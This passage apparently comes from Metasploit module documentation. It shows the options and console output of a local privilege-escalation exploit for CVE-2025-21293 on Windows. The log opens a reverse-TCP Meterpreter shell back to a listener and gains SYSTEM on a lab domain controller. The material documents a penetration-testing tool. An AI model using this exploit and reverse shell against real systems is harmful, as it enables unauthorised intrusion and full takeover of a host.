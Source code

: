 ```
   AGGRESSIVE  false            no        Exploit as many services as possible (dangerous)
   SESSION     -1               yes       The session to run this module on
   TIMEOUT     10               yes       Timeout for WMI command in seconds


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT     6665             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Exploit CVE-2025-21293



View the full module info with the info, or info -d command.

msf exploit(windows/local/service_permissions) > run
[*] Started reverse TCP handler on 172.16.199.1:6665
[*] exploiting Exploit CVE-2025-21293
[+] [Dnscache] Created registry key: HKLM\System\CurrentControlSet\Services\Dnscache\Performance
[*] Sending stage (203846 bytes) to 172.16.199.200
[+] Deleted C:\Users\msfuser\AppData\Local\Temp\VcsHZcFQ.dll
[*] Meterpreter session 8 opened (172.16.199.1:6665 -> 172.16.199.200:49807) at 2025-04-16 09:42:35 -0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC2
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : KERBEROS
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter >
```


[CreateServiceA]: https://docs.microsoft.com/en-us/windows/win32/api/winsvc/nf-winsvc-createservicea